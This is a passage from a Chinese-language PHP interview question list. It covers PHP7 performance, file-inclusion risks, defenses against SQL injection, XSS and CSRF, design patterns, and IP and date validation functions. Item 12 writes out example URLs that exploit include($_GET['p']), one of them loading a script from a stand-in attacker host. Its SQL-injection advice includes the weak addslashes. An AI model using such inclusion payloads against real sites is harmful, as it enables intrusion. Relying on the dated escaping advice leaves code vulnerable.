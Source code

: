 #### 11.php7卓越性能背后的优化

* 减少内存分配次数
* 多使用栈内存
* 缓存数组的hash值
* 字符串解析成桉树改为宏展开
* 使用大块连续内存代替小块破碎内存 详细的可以参考鸟哥的PPT：[PHP7性能之源][49]

#### 12.`include($_GET['p'])`的安全隐患

现在任一个黑客现在都可以用:http://www.yourdomain.com/index.php?p=anyfile.txt 来获取你的机密信息，或执行一个PHP脚本。 如果allow_url_fopen=On，你更是死定了： 试试这个输入：http://www.yourdomain.com/index.php?p=http://youaredoomed.com/phphack.php 现在你的网页中包含了http://www.youaredoomed.com/phphack.php的输出. 黑客可以发送垃圾邮件，改变密码，删除文件等等。只要你能想得到。

#### 13.列出一些防范SQL注入、XSS攻击、CSRF攻击的方法

SQL注入：

* `addslashes`函数
* `mysql_real_escape_string`/`mysqli_real_escape_string`/`PDO::quote()`
* **PDO预处理 XSS**：htmlspecial函数 CSRF：
* 验证HTTP REFER
* 使用token进行验证

#### 14.接口如何安全访问

jwt或验证签名

#### 15.PHP里有哪些设计模式

* 单例模式
* 工厂模式
* 脸面模式（facade）
* 注册器模式
* 策略模式
* 原型模式
* 装饰器模式 更多的可以看[PHP设计模式简介][54]这篇文章

#### 16.验证ip是否正确

```php
<?php
function check_ip($ip)
{
    if (!filter_var($ip, FILTER_VALIDATE_IP)) {
    return false;
    } else {
        return true;
    }
}
```

#### 17.验证日期是否合理

```php
<?php
function check_datetime($datetime)
{
    if (date('Y-m-d H:i:s', strtotime($datetime)) === $datetime) {
        return true;
    } else {
        return false;
    }
}
```


[21]: https://segmentfault.com/a/1190000009745139
[43]: http://www.php.net/manual/zh/ini.sect.safe-mode.php
[47]: https://secure.php.net/manual/en/migration70.new-features.php
[49]: https://github.com/devlinkcn/ppts_for_php2016/blob/master/%EF%BC%88%E6%83%A0%E6%96%B0%E5%AE%B8%EF%BC%89PHP7%E6%80%A7%E8%83%BD%E4%B9%8B%E6%BA%90.pdf
[54]: http://larabase.com/collection/5/post/143
[65]: https://github.com/composer/satis
[66]: https://joelhy.github.io/2016/08/10/composer-private-packages-with-satis/